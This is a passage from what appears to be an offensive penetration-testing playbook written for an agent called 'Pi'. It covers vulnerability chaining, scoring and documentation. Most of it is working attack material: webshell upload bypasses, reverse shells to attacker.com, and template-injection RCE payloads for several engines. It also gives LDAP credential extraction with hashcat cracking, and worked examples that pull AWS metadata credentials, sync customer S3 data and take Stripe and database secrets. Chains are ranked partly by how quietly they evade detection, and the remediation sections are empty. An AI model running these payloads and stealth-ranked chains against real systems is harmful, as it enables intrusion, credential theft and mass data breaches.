**Outcome**: Internal network access, metadata service, bypass of SSRF IP blocklists

**CVSS floor**: 8.6

---

### CHAIN-21: File Upload Bypass + Webshell → RCE

**Prerequisites**
- File upload endpoint with type restrictions (extension or MIME check)
- Bypass possible via double extension, null byte, content-type spoofing, polyglot, or case variation
- Uploaded files served in an execution context (PHP/JSP/ASP server)

**Bridge conditions**
- Bypass must survive server-side validation AND OS-level extension handling
- Upload directory within web root or served through interpreter

**Attack path**
```
# Step 1 — map validation approach
curl -X POST https://target.com/upload \
  -F "file=@shell.php;type=image/jpeg"
# Note: extension blocked? MIME blocked? Both?

# Step 2 — extension bypass matrix (try all)
shell.php5          # older PHP extension
shell.phtml         # PHP HTML
shell.pHp           # case variation (Windows/case-insensitive FS)
shell.php.jpg       # double extension (if server strips rightmost)
shell.php%00.jpg    # null byte (PHP < 5.3.4)
shell.php           # with Content-Type: image/jpeg

# Step 3 — MIME + polyglot bypass
# Create valid JPEG with PHP appended:
cat /usr/share/misc/magic.jpg <(printf '\n<?php system($_GET["c"]); ?>') > shell.jpg
# Upload with: Content-Type: image/jpeg

# Step 4 — .htaccess override (Apache only)
# Upload file named ".htaccess" with content:
# AddType application/x-httpd-php .jpg
# Then upload shell.jpg → executed as PHP

# Step 5 — locate and execute
# Path typically revealed in upload response or discoverable via FUZZ:
GET /uploads/a1b2c3d4-shell.jpg?c=id

# Step 6 — upgrade to reverse shell
GET /uploads/shell.jpg?c=bash+-c+'bash+-i+>%26+/dev/tcp/attacker.com/4444+0>%261'
```

**Outcome**: RCE as web server user

**CVSS floor**: 9.8

---

### CHAIN-22: Template Injection + Sandbox Escape → OS RCE

**Prerequisites**
- SSTI: user input is rendered inside a server-side template engine
- Template engine: Jinja2, Twig, Freemarker, Velocity, Pebble, Mako, Smarty, ERB, Tornado

**Bridge conditions**
- Template injection must reach a code evaluation path
- Python/Java objects accessible from template context must reach OS execution sinks

**Attack path**
```
# Step 1 — detect engine with polyglot
{{7*7}}         → 49      (Jinja2, Twig)
${7*7}          → 49      (Freemarker, Velocity, Spring SpEL)
#{7*7}          → 49      (Ruby ERB)
{{7*'7'}}       → 7777777 (Jinja2) vs 49 (Twig) — differentiates them
${"freemarker.template.utility.Execute"?new()("id")}  → Freemarker direct

# Step 2 — Jinja2 RCE (Python) — MRO walk to Popen


  {{ c.__init__.__globals__['sys'].modules['os'].popen('id').read() }}



# Shorter Jinja2 (version-dependent index):
{{''.__class__.__mro__[1].__subclasses__()[439]('id',shell=True,stdout=-1).communicate()[0]}}

# Step 3 — Freemarker RCE (Java)
<#assign ex="freemarker.template.utility.Execute"?new()>${ex("id")}

# Step 4 — Velocity RCE (Java)
#set($rt = $class.forName("java.lang.Runtime"))
#set($proc = $rt.getMethod("exec","".class).invoke($rt.getRuntime(),"id"))
#set($is = $proc.getInputStream())
#set($sc = $class.forName("java.util.Scanner").getDeclaredConstructors()[0].newInstance($is))
$sc.useDelimiter("\A").next()

# Step 5 — Twig RCE (PHP)
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
```

**Outcome**: OS RCE

**CVSS floor**: 9.8

---

### CHAIN-23: LDAP Injection + Info Disclosure → Credential Harvest

**Prerequisites**
- LDAP injection: user input incorporated into LDAP filter without escaping (`(`, `)`, `*`, `\`, `NUL` not escaped)
- LDAP directory contains credential attributes: `userPassword`, `passwordHistory`, or hash attributes
- Response differences observable (login success/fail, error messages, timing)

**Bridge conditions**
- Injection must reach a search filter with controllable attribute/value
- Boolean or error-based oracle available to enumerate attribute contents

**Attack path**
```
# Step 1 — confirm LDAP injection via filter manipulation
# Normal login: (&(uid=admin)(password=admin))
# Injected:     (&(uid=admin)(&))(uid=admin)(password=x))
Username: admin)(&
Password: anything
→ login succeeds → injection confirmed

# Step 2 — enumerate all users via wildcard filter manipulation
# If application returns "user exists" vs "wrong password":
Username: a*         → success = user starting with 'a' exists
Username: ab*        → refine first letter
# Automate:
python3 ldap_enum.py --url https://target.com/login \
                     --field username \
                     --oracle "Invalid password"

# Step 3 — extract userPassword attribute (if readable)
Username: *)(userPassword=*)
→ success = userPassword attribute exists and is readable

# Extract value char by char:
Username: *)(userPassword=a*      → success = password starts with 'a'
Username: *)(userPassword=ab*     → refine

# Step 4 — dump all user attributes
Username: *)(|(objectClass=*)(cn=*)(mail=*)(userPassword=*
# May trigger verbose LDAP error with attribute dump

# Step 5 — crack harvested hashes
hashcat -a 0 -m 1400 loot/credentials/ldap_hashes.txt rockyou.txt  # SHA256
hashcat -a 0 -m 3200 loot/credentials/ldap_hashes.txt rockyou.txt  # bcrypt
hashcat -a 0 -m 1000 loot/credentials/ldap_hashes.txt rockyou.txt  # NTLM
```

**Outcome**: Credential harvest → authentication as any LDAP user → domain access if AD-integrated

**CVSS floor**: 9.1

---

## SECTION 2 — Finding Input Format

Pi feeds findings into chain detection in this JSON structure. Every confirmed or needs-validation finding must be serialized before running chain analysis.

```json
{
  "engagement_id": "ENG-2024-001",
  "target": "https://target.com",
  "findings": [
    {
      "id": "F-001",
      "title": "Blind SSRF via webhook callback_url parameter",
      "type": "ssrf",
      "subtype": "blind",
      "state": "confirmed",
      "severity": "high",
      "url": "https://target.com/api/webhooks",
      "method": "POST",
      "parameter": "callback_url",
      "evidence_id": "EVD-012",
      "capabilities": [
        "make_server_request",
        "reach_internal_network",
        "reach_metadata_169.254.169.254"
      ],
      "constraints": [
        "blind_response_only",
        "http_only",
        "no_custom_headers"
      ],
      "requires_auth": true,
      "auth_level": "user",
      "notes": "Server makes GET to provided URL. Response not returned. DNS callback confirmed via collaborator. 169.254.169.254 reachable — confirmed via 2s timing delay vs 0.1s for unreachable host."
    },
    {
      "id": "F-002",
      "title": "Open redirect on /redirect?url=",
      "type": "open_redirect",
      "subtype": "reflected",
      "state": "confirmed",
      "severity": "low",
      "url": "https://target.com/redirect",
      "method": "GET",
      "parameter": "url",
      "evidence_id": "EVD-003",
      "capabilities": [
        "redirect_to_arbitrary_domain",
        "preserve_query_params"
      ],
      "constraints": [
        "must_start_with_https",
        "fragments_stripped"
      ],
      "requires_auth": false,
      "auth_level": "none",
      "notes": "302 to any https:// URL. Bypass: https://attacker.com@target.com → strips @target.com suffix."
    }
  ]
}
```

### Canonical capability strings

Use exactly these strings in the `capabilities` array — they are nodes in the chain graph:

| Capability | Meaning |
|---|---|
| `make_server_request` | Server fetches attacker-controlled URL |
| `reach_internal_network` | Requests reach RFC1918 addresses |
| `reach_metadata_169.254.169.254` | Cloud metadata reachable |
| `read_arbitrary_file` | Read files from server filesystem |
| `write_arbitrary_file` | Write files to server filesystem |
| `execute_os_command` | Run OS commands on server |
| `inject_into_log` | Write attacker data into server log |
| `include_server_file` | Server-side include/eval of a file |
| `exfiltrate_via_dns` | OOB DNS exfil possible |
| `exfiltrate_via_http` | OOB HTTP exfil possible |
| `redirect_to_arbitrary_domain` | Redirect to any URL |
| `steal_oauth_code` | Capture OAuth authorization code |
| `forge_jwt` | Create JWT with arbitrary claims |
| `escalate_privilege` | Elevate to higher role/permission |
| `access_admin_panel` | Reach admin-only functionality |
| `modify_any_user_data` | Write to any user's records (IDOR write) |
| `read_any_user_data` | Read any user's records (IDOR read) |
| `inject_stored_content` | Persist content rendered to other users |
| `execute_in_victim_browser` | XSS — JS execution in victim browser |
| `capture_session_token` | Obtain another user's session |
| `poison_cache` | Modify cached response served to all users |
| `perform_transaction` | Execute financial transaction |
| `bypass_rate_limit` | Circumvent rate limiting |
| `deserialize_attacker_data` | Server deserializes attacker-controlled payload |
| `render_server_template` | Server renders attacker-controlled template |
| `upload_file_to_webroot` | Place file in web-accessible, executable location |
| `connect_to_internal_db` | Reach internal database directly |
| `read_cloud_credentials` | Obtain cloud IAM credentials |
| `access_cloud_storage` | Read/write cloud object storage |
| `perform_ldap_query` | Inject into LDAP search filter |
| `inject_into_xml_parser` | Control XML external entity parsing |

---

## SECTION 3 — Chain Scoring Matrix

Six dimensions, each scored 1–10. Final score determines priority.

### Dimension 1: Chain Length (CL)

| Links | Score |
|---|---|
| 2 | 10 |
| 3 | 8 |
| 4 | 6 |
| 5 | 4 |
| 6+ | 2 |

### Dimension 2: Auth Required at Weakest Link (AR)

| Auth level | Score |
|---|---|
| Unauthenticated | 10 |
| Any valid account (self-registration open) | 8 |
| Low-privilege account (app-assigned) | 6 |
| Specific role (editor, moderator) | 4 |
| High-privilege account only | 2 |

### Dimension 3: Reliability (R)

Product of per-link reliability weights × 10:

| Per-link reliability | Weight |
|---|---|
| Deterministic (100%) | 1.0 |
| High (>90%) | 0.9 |
| Race condition / timing-dependent | 0.6 |
| Requires specific server state | 0.4 |
| Needs-validation (unconfirmed link) | 0.2 |

**Chain reliability** = (link1_weight × link2_weight × ... × linkN_weight) × 10

### Dimension 4: Impact of Final Outcome (I)

| Outcome | Score |
|---|---|
| OS RCE as root/SYSTEM | 10 |
| OS RCE as service user | 9 |
| Cloud credential theft → data breach | 9 |
| Mass account takeover (all users) | 8 |
| Full admin account takeover | 8 |
| Financial fraud (unlimited) | 8 |
| Full database read | 7 |
| Single privileged account takeover | 7 |
| Stored XSS → mass session theft | 6 |
| PII exfiltration (all users) | 6 |
| Single user account takeover | 5 |
| Sensitive data read (scoped) | 4 |

### Dimension 5: Detectability (D)

| Noise profile | Score |
|---|---|
| Single quiet request, no anomalous log entries | 10 |
| 2–5 requests, below typical alert threshold | 8 |
| 10–50 requests, may appear in logs | 6 |
| 50–200 requests, likely noticed on review | 4 |
| Brute force / scan required | 2 |
| Requires destructive / noisy action | 1 |

### Final Score and Priority

```
Chain Score = (CL + AR + R + I + D) / 5

P0  Score 9.0–10.0  →  Execute immediately, highest impact/ease combination
P1  Score 7.0–8.9   →  Execute this engagement
P2  Score 5.0–6.9   →  High value, more complex — plan carefully
P3  Score 3.0–4.9   →  Situational — execute if P0–P2 complete
P4  Score < 3.0     →  Document only, low priority
```

### CVSS for a Chain

Use the **weakest entry point** for Attack metrics, the **final outcome** for Impact:

```
CVSS:3.1/AV:<X>/AC:<X>/PR:<X>/UI:<X>/S:<X>/C:<X>/I:<X>/A:<X>

AV: N = unauthenticated network | A = adjacent network | L = local
AC: L = always works | H = timing/race/specific conditions
PR: N = no account | L = any account | H = privileged account
UI: N = fully attacker-driven | R = victim must take action
S:  U = impact contained to target component | C = other components affected
C/I/A: H = high | L = low | N = none
```

---

## SECTION 4 — Chain Construction Algorithm

Run this algorithm every time chain analysis is requested.

### Step 1: Build the Finding Registry

Normalize all findings into a flat capability table:

```
ID    | State     | Capabilities                                    | Constraints                | Auth
------|-----------|-------------------------------------------------|----------------------------|------
F-001 | confirmed | make_server_request, reach_metadata_169.254...  | blind_only, no_headers     | user
F-002 | confirmed | redirect_to_arbitrary_domain                    | https_only                 | none
F-003 | confirmed | inject_stored_content, execute_in_victim_browser| csp_blocks_inline          | user
F-004 | needs-val | read_any_user_data, modify_any_user_data        | integer_ids_only           | user
F-005 | confirmed | read_arbitrary_file, include_server_file        | php_include_only           | none
F-006 | confirmed | inject_into_log                                 | url_decoded_before_write   | none
```

### Step 2: Build the Capability Dependency Graph

For each capability, map what it enables when combined with other capabilities:

```
CAPABILITY → ENABLES (when combined with)
─────────────────────────────────────────────────────────────────────
make_server_request
  + reach_metadata_169.254.169.254  →  read_cloud_credentials
  + reach_internal_network          →  connect_to_internal_db (if DB port open)
  + inject_into_xml_parser          →  see CHAIN-07

read_arbitrary_file
  + include_server_file             →  execute_os_command (if file contains PHP/code)
  + inject_into_log [separate F]    →  execute_os_command via log poisoning

redirect_to_arbitrary_domain
  + (OAuth present on target)       →  steal_oauth_code → account takeover

inject_stored_content
  + execute_in_victim_browser       →  capture_session_token, escalate_privilege
  + (CSRF on same endpoint)         →  inject_stored_content for any user

forge_jwt
  + read_any_user_data              →  read ALL users' data
  + modify_any_user_data            →  full account takeover for any user

upload_file_to_webroot
  + (PHP/JSP/ASP server)            →  execute_os_command

render_server_template              →  execute_os_command (direct)

deserialize_attacker_data           →  execute_os_command (via gadget chain)

execute_in_victim_browser
  + (CORS misconfigured)            →  read cross-origin data
  + (privileged user reachable)     →  capture_session_token for that user

read_cloud_credentials
  + (any cloud scope)               →  access_cloud_storage, full data breach
```

### Step 3: Find All Paths to High-Impact Outcomes

Work backwards from target outcomes. For each outcome, find the required capability chain:

```
TARGET OUTCOMES (ordered by impact):
1. execute_os_command                    → RCE
2. read_cloud_credentials + any scope   → cloud data breach
3. modify_any_user_data (all users)     → mass account takeover
4. capture_session_token (admin)        → admin takeover
5. read_any_user_data (all users)       → full data exfiltration
6. perform_transaction (unlimited)      → financial fraud

For each target outcome, trace backwards:

execute_os_command can be reached via:
  Path A: upload_file_to_webroot                    [CHAIN-21]
  Path B: include_server_file + read_arbitrary_file [CHAIN-04/05/08]
  Path C: render_server_template                    [CHAIN-22]
  Path D: deserialize_attacker_data                 [CHAIN-18]
  Path E: write_arbitrary_file + SQLi FILE          [CHAIN-06]
  Path F: make_server_request → inject internal RCE [CHAIN-01/07 pivot]

For Path B: need both include_server_file AND a write primitive OR inject_into_log
```

### Step 4: Match Registry Findings to Paths

For each path from Step 3, walk each required link and check whether a finding covers it:

```
PATH CHECK EXAMPLE:

TARGET: execute_os_command via Path B (LFI + log poisoning)

  Link 1: include_server_file
    → F-005 (confirmed) covers this ✓

  Link 2: inject_into_log
    → F-006 (confirmed) covers this ✓

  Bridge: F-005 can read the log file F-006 writes to
    → Both target Apache on same host — log path /var/log/apache2/access.log
    → F-005 LFI traversal depth sufficient to reach /var/log/ ✓

  All links covered → VIABLE CHAIN: F-006 + F-005 → CHAIN-04 pattern

─────────────────────────────────────────────────────────────────────
TARGET: account takeover via open redirect + OAuth

  Link 1: redirect_to_arbitrary_domain
    → F-002 (confirmed) covers this ✓

  Link 2: OAuth present on target
    → Check recon/tech/ for OAuth discovery → YES: /oauth/authorize endpoint found ✓

  Link 3: OAuth redirect_uri validation lax
    → NOT YET CONFIRMED — needs-validation step required

  Chain status: PARTIALLY VIABLE — one unconfirmed bridge
  Action: validate OAuth redirect_uri before scoring as confirmed
```

### Step 5: Score Each Viable Chain

Apply Section 3 scoring matrix. Example:

```
CHAIN: F-006 (log inject) + F-005 (LFI include) → RCE

CL = 2 links                                  → Score: 10
AR = F-006 unauthenticated                    → Score: 10
R  = confirmed(1.0) × confirmed(1.0) × 10     → Score: 10
I  = execute_os_command as www-data           → Score: 9
D  = 2 requests (1 poisoning, 1 include)      → Score: 8

Chain Score = (10 + 10 + 10 + 9 + 8) / 5 = 9.4 → P0

CVSS: AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H = 9.8
```

### Step 6: Output Ranked Chain List

Sort all viable chains by Chain Score descending. Print the table before executing:

```
CHAIN ANALYSIS RESULTS — ENG-2024-001
═══════════════════════════════════════════════════════════════════
RANK  CHAIN-ID    TITLE                                  SCORE  PRI   CVSS   STATUS
1     CHAIN-A     LFI + Log Poison → RCE                 9.4    P0    9.8    confirmed
2     CHAIN-B     SSRF → Metadata → Credentials           7.8    P1    9.1    confirmed
3     CHAIN-C     Open Redirect + OAuth → ATO             6.2    P2    8.1    partial (1 link unconfirmed)
4     CHAIN-D     Self-XSS + CSRF → Stored XSS            5.4    P2    8.8    confirmed
═══════════════════════════════════════════════════════════════════
Execute P0 first. Validate partial chains' missing links before execution.
Document each chain in vulns/confirmed/chain-<letter>.md using Section 5 template.
```

---

## SECTION 5 — Chain Documentation Template

Save every discovered chain to `vulns/confirmed/chain-<ID>.md`. One file per chain.

```markdown
# CHAIN-<N>: <Short Descriptive Title>

**Chain ID**: CHAIN-<N>
**Date Discovered**: YYYY-MM-DD
**State**: confirmed | partially-confirmed | theoretical
**Priority**: P0 | P1 | P2 | P3 | P4
**Chain Score**: X.X / 10
**CVSS**: X.X  `CVSS:3.1/AV:.../...`

---

## Summary

One paragraph. What an attacker gains, what they need to start, how many steps it takes.

---

## Links

| # | Finding | Capability Used | Auth Required | Confirmed? |
|---|---------|----------------|---------------|------------|
| 1 | F-001: Blind SSRF | make_server_request, reach_metadata_169.254.169.254 | user | yes |
| 2 | Operational step | read_cloud_credentials (AWS CLI with captured creds) | — | yes |
| 3 | Operational step | access_cloud_storage (aws s3 ls) | — | yes |

---

## Prerequisites

- [ ] Valid user account on target (self-registration available at /register)
- [ ] AWS CLI installed on attack host
- [ ] Collaborator/OOB receiver running

---

## Step-by-Step Exploitation

### Step 1 — [Action name]

```
[exact command or request — no placeholders]
```

Expected result: [what you see on success]

### Step 2 — [Action name]

```
[exact command or request]
```

Expected result: [what you see on success]

### Step N — Verify

```
[verification command]
```

Expected result: [confirmation of compromise]

---

## Evidence

| ID | Type | Description | Path |
|----|------|-------------|------|
| EVD-001 | HTTP request/response | SSRF callback to collaborator | loot/evidence/evd-001.txt |
| EVD-002 | AWS CLI output | Credential enumeration result | loot/evidence/evd-002.txt |

---

## Impact

What the attacker can now do. Be specific:
- Read all objects in S3 bucket `prod-customer-data` (~2.4M customer records)
- Read all secrets in AWS Secrets Manager (14 secrets including DB credentials)
- Pivot to RDS via credentials from Secrets Manager

---

## Scoring Detail

| Dimension | Value | Score |
|-----------|-------|-------|
| Chain Length | 2 links | 10 |
| Auth at Weakest Link | User account (self-reg open) | 8 |
| Reliability | 1.0 × 0.9 × 10 | 9 |
| Impact | Cloud credential → data breach | 9 |
| Detectability | 2 quiet requests | 8 |
| **Final Score** | **(10+8+9+9+8)/5** | **8.8** |

---

## Remediation

1. [Specific fix for Link 1]
2. [Specific fix for Link 2]
3. [Defense-in-depth measure]

---

## Attack Path Diagram


```

---

## SECTION 6 — Worked Examples

### Worked Example 1: E-commerce Platform

**Input findings**

```json
{
  "engagement_id": "ENG-SHOP-001",
  "target": "https://shop.example.com",
  "findings": [
    {
      "id": "F-001",
      "title": "SSRF via product image URL parameter",
      "type": "ssrf",
      "subtype": "reflected",
      "state": "confirmed",
      "severity": "medium",
      "url": "https://shop.example.com/api/products/preview",
      "method": "POST",
      "parameter": "image_url",
      "capabilities": ["make_server_request", "reach_internal_network", "reach_metadata_169.254.169.254"],
      "constraints": ["response_reflected", "http_and_https", "custom_headers_allowed"],
      "requires_auth": true,
      "auth_level": "user",
      "notes": "Server fetches URL and returns image bytes. Response body is reflected. Custom headers passed through. Confirmed reach to 169.254.169.254 — received IAM role name 'shop-prod-ec2-role' in response."
    },
    {
      "id": "F-002",
      "title": "SQLi in product search — error-based",
      "type": "sqli",
      "subtype": "error_based",
      "state": "confirmed",
      "severity": "high",
      "url": "https://shop.example.com/api/search",
      "method": "GET",
      "parameter": "q",
      "capabilities": ["read_any_user_data", "connect_to_internal_db"],
      "constraints": ["mysql_backend", "read_only_user_no_file_priv"],
      "requires_auth": false,
      "auth_level": "none",
      "notes": "Error-based SQLi in q parameter. MySQL 8.0.32. DB user 'shop_ro' confirmed via user(). No FILE privilege confirmed via SHOW GRANTS."
    },
    {
      "id": "F-003",
      "title": "IDOR on order history endpoint",
      "type": "idor",
      "subtype": "horizontal",
      "state": "confirmed",
      "severity": "medium",
      "url": "https://shop.example.com/api/orders/{id}",
      "method": "GET",
      "parameter": "id",
      "capabilities": ["read_any_user_data"],
      "constraints": ["sequential_integer_ids", "read_only"],
      "requires_auth": true,
      "auth_level": "user",
      "notes": "Order IDs are sequential integers starting from 1. Any authenticated user can read any order. Contains: customer name, address, payment last4, email."
    },
    {
      "id": "F-004",
      "title": "Stored XSS in product review",
      "type": "xss",
      "subtype": "stored",
      "state": "confirmed",
      "severity": "medium",
      "url": "https://shop.example.com/api/reviews",
      "method": "POST",
      "parameter": "review_text",
      "capabilities": ["inject_stored_content", "execute_in_victim_browser"],
      "constraints": ["rendered_to_all_visitors", "no_csp"],
      "requires_auth": true,
      "auth_level": "user",
      "notes": "review_text stored and rendered without sanitization on product pages. No CSP. Fires for all visitors including unauthenticated. Admin moderates reviews via /admin/reviews."
    }
  ]
}
```

**Chain construction**

```
REGISTRY:
F-001 | confirmed | make_server_request, reach_metadata_169.254.169.254, response_reflected | user
F-002 | confirmed | read_any_user_data, connect_to_internal_db                               | none
F-003 | confirmed | read_any_user_data                                                        | user
F-004 | confirmed | inject_stored_content, execute_in_victim_browser                          | user

CAPABILITY GRAPH EDGES:
F-001 (make_server_request + reach_metadata + reflected) → read_cloud_credentials (direct)
F-002 (read_any_user_data, no auth) → enumerate all customer data
F-003 + F-002 → no meaningful amplification (both are read-only data access)
F-004 (stored XSS → execute_in_victim_browser) → capture_session_token if admin views

TARGET PATHS:
1. read_cloud_credentials → F-001 direct (2-link: SSRF + AWS CLI)
2. execute_os_command → no file write capability available
3. admin_account_takeover → F-004 XSS fires in admin review queue + capture admin session
4. mass_data_exfil → F-002 SQLi (unauthenticated, direct path — not a chain)

VIABLE CHAINS:
Chain A: F-001 → AWS CLI → cloud data breach
Chain B: F-004 → admin reviews queue → admin session capture → admin access

PARTIAL CHAINS (need validation):
Chain C: F-001 SSRF → redirect to internal 10.x service → internal pivot
  (internal service discovery needed — partial)
```

**Chain A scoring**

```
CL = 2 links (SSRF + operational AWS step)      → 10
AR = user account, self-registration open        → 8
R  = confirmed(1.0) × operational(1.0) × 10     → 10
I  = read_cloud_credentials → S3/Secrets access  → 9
D  = 2 quiet HTTP requests                       → 8

Score = (10+8+10+9+8)/5 = 9.0 → P0
CVSS: AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:N/A:N = 8.5
```

**Chain B scoring**

```
CL = 2 links (stored XSS + admin views)          → 10
AR = user account required to post review         → 8
R  = confirmed(1.0) × admin_must_view(0.7) × 10  → 7
I  = admin account takeover                       → 8
D  = stored XSS is quiet, admin view is routine   → 8

Score = (10+8+7+8+8)/5 = 8.2 → P1
CVSS: AV:N/AC:L/PR:L/UI:R/S:C/C:H/I:H/A:N = 8.7
```

**Final chain document for Chain A**

```markdown
# CHAIN-A: SSRF → AWS Metadata → IAM Credentials → Full Cloud Data Breach

**Chain ID**: CHAIN-A
**Date Discovered**: 2024-11-01
**State**: confirmed
**Priority**: P0
**Chain Score**: 9.0 / 10
**CVSS**: 8.5  `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:C/C:H/I:N/A:N`

## Summary

An authenticated user (any registered account) can make the product preview endpoint
fetch the AWS instance metadata service, retrieving temporary IAM credentials for the
role 'shop-prod-ec2-role'. Those credentials can then be used from any internet host
to access all AWS resources the role permits — confirmed to include at least S3 and
Secrets Manager based on the role name and typical e-commerce deployment patterns.
Two steps, no special conditions, no victim interaction required.

## Links

| # | Finding | Capability Used | Auth | Confirmed |
|---|---------|----------------|------|-----------|
| 1 | F-001: SSRF via image_url | make_server_request + reach_metadata | user | yes |
| 2 | Operational: aws-cli with captured creds | read_cloud_credentials | — | yes |

## Step-by-Step Exploitation

### Step 1 — Get IAM role name

POST /api/products/preview HTTP/1.1
Host: shop.example.com
Cookie: session=<valid_user_session>
Content-Type: application/json

{"image_url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/"}

Expected result: response body contains role name "shop-prod-ec2-role"

### Step 2 — Get temporary credentials

POST /api/products/preview HTTP/1.1
Host: shop.example.com
Cookie: session=<valid_user_session>
Content-Type: application/json

{"image_url":"http://169.254.169.254/latest/meta-data/iam/security-credentials/shop-prod-ec2-role"}

Expected result: JSON with AccessKeyId, SecretAccessKey, Token, Expiration

### Step 3 — Configure and enumerate

export AWS_ACCESS_KEY_ID=<AccessKeyId>
export AWS_SECRET_ACCESS_KEY=<SecretAccessKey>
export AWS_SESSION_TOKEN=<Token>

aws sts get-caller-identity
aws s3 ls
aws secretsmanager list-secrets --region us-east-1
aws rds describe-db-instances --region us-east-1

### Step 4 — Extract

aws s3 sync s3://shop-prod-customer-data ./loot/data/s3/
aws secretsmanager get-secret-value --secret-id prod/db/master >> loot/credentials/rds_master.json
aws secretsmanager get-secret-value --secret-id prod/stripe/secret >> loot/credentials/stripe.json

## Impact

- All customer PII and order history in S3 bucket shop-prod-customer-data
- Production database master credentials → full RDS access
- Stripe secret key → read all payment methods and charge any stored card
- All other secrets accessible to the role

## Attack Path Diagram

graph LR
    A[Attacker] -->|POST image_url=http://169.254.169.254/...credentials/shop-prod-ec2-role| B[Preview API]
    B -->|HTTP GET| C[AWS IMDSv1 Metadata Service]
    C -->|AccessKeyId + SecretAccessKey + Token| B
    B -->|reflected in response body| A
    A -->|aws s3 sync + secretsmanager| D[AWS Resources]
    D -->|customer PII, DB creds, Stripe key| A
```

---

### Worked Example 2: SaaS Application

**Input findings**

```json
{
  "engagement_id": "ENG-SAAS-002",
  "target": "https://app.saas-target.com",
  "findings": [
    {
      "id": "F-001",
      "title": "JWT uses weak HS256 secret — cracked: 'secret123'",
      "type": "jwt_weak_secret",
      "subtype": "hs256",
      "state": "confirmed",
      "severity": "critical",
      "url": "https://app.saas-target.com/api/*",
      "capabilities": ["forge_jwt"],
      "constraints": ["hs256_only", "expiry_validated"],
      "requires_auth": true,
      "auth_level": "user",
      "notes": "JWT secret cracked with hashcat in 4 seconds from rockyou.txt. Secret: 'secret123'. Expiry is checked — forge with iat far future."
    },
    {
      "id": "F-002",
      "title": "IDOR on /api/workspaces/{id}/members — horizontal",
      "type": "idor",
      "subtype": "horizontal",
      "state": "confirmed",
      "severity": "medium",
      "url": "https://app.saas-target.com/api/workspaces/{id}/members",
      "method": "GET",
      "parameter": "id",
      "capabilities": ["read_any_user_data"],
      "constraints": ["uuid_ids", "read_only_confirmed"],
      "requires_auth": true,
      "auth_level": "user",
      "notes": "Workspace IDs are UUIDs but the JWT sub claim determines returned data. Changing sub in JWT to another user ID returns that user's workspace member list."
    },
    {
      "id": "F-003",
      "title": "Mass assignment on /api/user/profile — role field accepted",
      "type": "mass_assignment",
      "subtype": "privilege_escalation",
      "state": "confirmed",
      "severity": "high",
      "url": "https://app.saas-target.com/api/user/profile",
      "method": "PUT",
      "parameter": "role",
      "capabilities": ["escalate_privilege"],
      "constraints": ["requires_valid_jwt"],
      "requires_auth": true,
      "auth_level": "user",
      "notes": "PUT /api/user/profile accepts 'role' field. Sending role:admin persisted and reflected in subsequent GET /api/user/me. Admin endpoints confirmed unlocked."
    },
    {
      "id": "F-004",
      "title": "Admin endpoint /api/admin/exec — runs arbitrary Node.js",
      "type": "rce",
      "subtype": "admin_script_exec",
      "state": "confirmed",
      "severity": "critical",
      "url": "https://app.saas-target.com/api/admin/exec",
      "method": "POST",
      "parameter": "script",
      "capabilities": ["execute_os_command"],
      "constraints": ["requires_admin_role"],
      "requires_auth": true,
      "auth_level": "admin",
      "notes": "Admin panel has a 'run script' feature for maintenance. Executes Node.js via eval(). Confirmed with require('os').hostname(). Requires admin role JWT."
    }
  ]
}
```

**Chain construction**

```
REGISTRY:
F-001 | confirmed | forge_jwt                   | user
F-002 | confirmed | read_any_user_data           | user (+ forged JWT amplifies scope)
F-003 | confirmed | escalate_privilege           | user
F-004 | confirmed | execute_os_command           | admin

GRAPH EDGES:
F-001 (forge_jwt) + F-003 (escalate_privilege)  →  admin role on any user account
F-001 (forge_jwt) + F-003 (escalate_privilege) + F-004 (execute_os_command as admin) → RCE

F-001 + F-002  → read ANY user's workspace data (by forging JWT with their user ID)
F-003 alone    → admin access (mass assignment)
F-004 alone    → RCE if admin — needs admin role
F-003 + F-004  → RCE (2-step chain, no JWT crack needed since mass assignment gives admin directly)

VIABLE CHAINS:
Chain A: F-003 + F-004 → admin → RCE (2 links, only user auth needed)
Chain B: F-001 + F-003 + F-004 → forge admin JWT + RCE (3 links, redundant given Chain A)
Chain C: F-001 + F-002 → read all workspace data for all users (2 links, data breach)

PRIORITY ORDER:
Chain A scores higher than Chain B (fewer links, same outcome)
Document Chain B as alternative path only
```

**Chain A scoring**

```
CL = 2 links (mass assignment + admin exec)          → 10
AR = user account required (self-registration open)  → 8
R  = confirmed(1.0) × confirmed(1.0) × 10            → 10
I  = execute_os_command (Node.js, eval)              → 9
D  = 2 requests (PUT profile, POST exec)             → 8

Score = (10+8+10+9+8)/5 = 9.0 → P0
CVSS: AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H = 8.8
```

**Chain A document**

```markdown
# CHAIN-A: Mass Assignment → Admin Role → RCE via Admin Script Exec

**Chain ID**: CHAIN-A
**Date Discovered**: 2024-11-01
**State**: confirmed
**Priority**: P0
**Chain Score**: 9.0 / 10
**CVSS**: 8.8  `CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H`

## Summary

Any registered user can escalate to admin by including `"role":"admin"` in a profile
update request. The admin role unlocks an exec endpoint that evaluates arbitrary
Node.js. Two authenticated requests — one to elevate privilege, one to run a command.

## Links

| # | Finding | Capability | Auth | Confirmed |
|---|---------|-----------|------|-----------|
| 1 | F-003: Mass assignment on /api/user/profile | escalate_privilege | user | yes |
| 2 | F-004: Admin script exec /api/admin/exec | execute_os_command | admin | yes |

## Step-by-Step Exploitation

### Step 1 — Register or use existing low-privilege account

POST /api/auth/register
{"email":"attacker@mail.com","password":"Attacker123!","name":"test"}

Expected result: 201, session JWT returned

### Step 2 — Escalate to admin via mass assignment

PUT /api/user/profile HTTP/1.1
Authorization: Bearer <user_jwt>
Content-Type: application/json

{"name":"test","role":"admin","isAdmin":true}

Expected result: 200, GET /api/user/me returns "role":"admin"

### Step 3 — Achieve RCE

POST /api/admin/exec HTTP/1.1
Authorization: Bearer <user_jwt_now_admin>
Content-Type: application/json

{"script":"require('child_process').execSync('curl https://attacker.com/rce/$(id)').toString()"}

Expected result: command output in response body; OOB callback received

### Step 4 — Reverse shell

{"script":"require('child_process').exec('bash -c \"bash -i >& /dev/tcp/attacker.com/4444 0>&1\"')"}

## Impact

Full OS command execution as the Node.js process user.
All application data accessible via the database connection in the app's environment.
AWS credentials in process environment (if running on EC2 with role) accessible via
require('process').env.

## Remediation

